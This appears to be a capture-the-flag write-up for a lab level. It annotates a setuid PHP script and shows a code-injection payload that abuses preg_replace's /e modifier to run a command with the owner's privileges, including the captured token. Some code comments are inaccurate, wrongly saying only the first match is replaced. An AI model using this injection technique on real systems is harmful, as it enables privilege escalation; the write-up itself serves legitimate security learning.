 
->ls -la

we find two interesting lines :

-rwsr-x---+ 1 flag06 level06 ... level06
-rwsr-x---  1 flag06 level06 ... level06.php

-> cat level06.php

<?php                                                                     # Opening php tag, this is the beginning of the script
	function y($m) {
		$m = preg_replace("/\./", " x ", $m);                     # `/\./` matches the character '.' literally (case sensitive) => replace the first '.' by " x "
		$m = preg_replace("/@/", " y", $m);                       # `/@/` matches the character @ literally (case sensitive) => replace the first '@' by " y"
		return $m;
	}
	function x($y, $z) {
		$a = file_get_contents($y);                               # `file_get_contents()` reads entire file and return it into a string
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);   # regex will evaluate any string arranged in the form "[x (.)]", interpret it as PHP code and call the 'y' function with "." as parameter.
		$a = preg_replace("/\[/", "(", $a);                       # `/\[/` matches the character [ literally (case sensitive) => replace the first '[' by '('
		$a = preg_replace("/\]/", ")", $a);                       # `/\]/` matches the character ] literally (case sensitive) => replace the first ']' by ')'
		return $a;
	}
	$r = x($argv[1], $argv[2]);                                       # call the function x *the second line will print the result*
	print $r;
?>                                                                        # closing php tag, end of the script

So, after inspecting the code, we can see that it's actually posible 
to inject something this code, so we can exploit it.

This is possible because The /e transforms the replacement string into 
executed PHP code — so if we get to control the text captured between 
[x ...], we can close the string and inject code.

So let's try :

-> echo '[x ${`getflag`}]' > /tmp/getflag

-> ./level06 /tmp/getflag

PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
in /home/user/level06/level06.php(4) : regexp code on line 1

-> su level07 ..